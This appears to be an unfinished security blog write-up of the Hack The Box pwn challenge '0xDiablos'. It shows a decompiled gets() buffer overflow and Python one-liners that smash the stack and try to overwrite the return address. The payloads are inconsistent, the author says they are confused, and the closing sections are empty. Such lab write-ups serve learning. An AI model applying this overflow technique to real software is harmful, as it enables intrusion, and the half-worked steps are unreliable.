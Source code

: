 [**slyone999’s Security Blog**] (https://slyone999.github.io)

[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)


# Info#
Challenge - 0xDiablos
Type - Pwn
# Info
The download contains an executable called vuln. 

When running the application the following happens - 

```
./vuln
You know who are 0xDiablos: 
test
test

```
The application can be examined by either R2 or Ghidra. I used Ghidra 

The main function calls a function called vuln.
This function uses gets.
the gets function is vulnerable to a buffer overflow. 

```
void vuln(void)

{
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}
```
The buffer is 180 so by using a bit of python you can fill the buffer. 
python -c "print 'A' * 184" | ./vuln

```
python -c "print 'A' * 184" | ./vuln
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Examining the code you need to get to address 0804bf08(*) 

python -c "print 'A' * 184" + "\x08\xbf\x04\x08" | ./vuln



I am confused !!!
The buffer local_bc is 180 long 


python -c "print 'A' * 180 + '\xe6\x91\x04\x08'" | ~/Documents/HTB/challenges/vuln



## NMap



### Bash
